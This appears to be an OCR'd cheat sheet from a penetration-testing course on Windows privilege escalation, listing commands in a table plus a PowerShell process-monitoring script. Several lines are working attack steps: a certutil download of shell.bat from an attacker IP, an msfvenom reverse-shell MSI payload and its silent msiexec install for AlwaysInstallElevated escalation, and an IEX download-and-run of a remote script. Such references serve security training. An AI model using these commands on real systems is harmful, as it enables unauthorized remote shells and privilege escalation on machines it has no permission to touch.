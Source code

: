 | **Command** | **Description** |
| --------------|-------------------|
| `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat` | Transfer file with certutil |
| `certutil -encode file1 encodedfile` | Encode file with certutil |
| `certutil -decode encodedfile file2` | Decode file with certutil |
| `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` | Query for always install elevated registry key (1) |
| `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer` | Query for always install elevated registry key (2) |
| `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi` | Generate a malicious MSI package |
| `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart` | Executing an MSI package from command line |
| `schtasks /query /fo LIST /v` | Enumerate scheduled tasks |
| `Get-ScheduledTask \| select TaskName,State` | Enumerate scheduled tasks with PowerShell |
| `.\accesschk64.exe /accepteula -s -d C:\Scripts\` | Check permissions on a directory |
| `Get-LocalUser` | Check local user description field |
| `Get-WmiObject -Class Win32_OperatingSystem \| select Description` | Enumerate computer description field |
| `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd` |Mount VMDK on Linux|
| `guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1` |Mount VHD/VHDX on Linux|
| `sudo python2.7 windows-exploit-suggester.py  --update` |Update Windows Exploit Suggester database|
| `python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt` |Running Windows Exploit Suggester|

## Process Command Lines

### Monitoring for Process Command Lines

```
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

### Running Monitor Script on Target Host

```
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```
